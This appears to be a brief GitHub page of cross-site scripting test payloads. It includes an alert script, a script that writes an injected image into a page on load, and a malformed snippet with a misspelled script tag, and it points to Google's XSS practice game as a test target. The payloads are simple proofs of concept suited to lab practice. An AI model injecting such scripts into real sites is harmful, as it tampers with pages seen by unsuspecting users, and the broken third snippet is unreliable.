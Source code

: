 # Alert
```js
<script>alert("Hello");</script>
```
# Image
```js
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("Hidden scripted image.");</script>
```
# Image XSS using the JavaScript directive

```js
<scrip>img src="https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp"</script>
```

# Test 
```url
https://xss-game.appspot.com/level1
```
